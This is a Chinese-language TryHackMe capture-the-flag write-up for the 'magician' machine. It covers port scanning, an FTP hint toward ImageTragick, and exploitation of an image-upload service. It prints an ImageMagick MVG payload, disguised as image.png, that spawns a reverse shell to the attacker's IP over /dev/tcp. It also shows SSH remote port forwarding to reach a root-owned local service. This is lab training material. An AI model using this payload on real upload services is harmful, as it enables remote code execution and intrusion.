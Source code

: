 ```yaml
---
sidebar_position: 70
tags: [Easy, Linux, 命令执行, 文件读取]
title: magician
description: magician
sidebar_label: magician
slug: /tryhackme/70
---
```

# magician
## 端口扫描
```bash
root@ip-10-10-77-221:~/magician# nmap -sTCV  -p 21,8080,8081 --min-rate 1000 10.10.120.29

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-05 12:21 BST
Nmap scan report for ip-10-10-120-29.eu-west-1.compute.internal (10.10.120.29)
Host is up (0.00019s latency).

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.0.8 or later
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Tue, 05 Sep 2023 11:21:53 GMT
|     Connection: close
|     {"timestamp":"2023-09-05T11:21:53.250+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Tue, 05 Sep 2023 11:21:53 GMT
|     Connection: close
|     {"timestamp":"2023-09-05T11:21:53.050+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   HTTPOptions: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Tue, 05 Sep 2023 11:21:53 GMT
|     Connection: close
|     {"timestamp":"2023-09-05T11:21:53.191+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   RTSPRequest: 
|     HTTP/1.1 505 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 465
|     Date: Tue, 05 Sep 2023 11:21:53 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505 
|     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 505 
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: Site doesn't have a title (application/json).
8081/tcp open  http       nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
```

## 21 - FTP
![20240703190124](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703190124.png)

给了一段提示内容, 其中指明链接为 `https://imagetragick.com`

![20240703190135](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703190135.png)

## 8081
当访问 `http://10.10.120.29:8081/` 没有办法上传文件, 我们需要添加 hosts 文件

```bash
root@ip-10-10-77-221:~/magician# cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	tryhackme.lan	tryhackme
10.10.120.29 magician
```

经过搜索, 我发现了利用方式 : [Picture ImageMagick | PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Picture%20ImageMagick/README.md)

## 后渗透
### magician

```bash
root@ip-10-10-77-221:~/magician# cat > image.png << EOF
> push graphic-context
> encoding "UTF-8"
> viewbox 0 0 1 1
> affine 1 0 0 1 0 0
> push graphic-context
> image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/10.10.77.221/4444 0<&1 2>&1'
> pop graphic-context
> pop graphic-context
> EOF
```

上传这个文件我们就可以获取到 Shell

![20240703190210](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703190210.png)

### magician —> root
查看端口我发现 6666 端口被一个 root 用户启动的 Python 程序占用

![20240703190635](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703190635.png)

进行端口转发, 然后访问发现这个网页的功能是读取文件内容(会编码后返回)

```bash
(remote) magician@magician:/tmp$ ssh -R 8888:127.0.0.1:6666 root@10.10.77.221
```

![20240703190652](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703190652.png)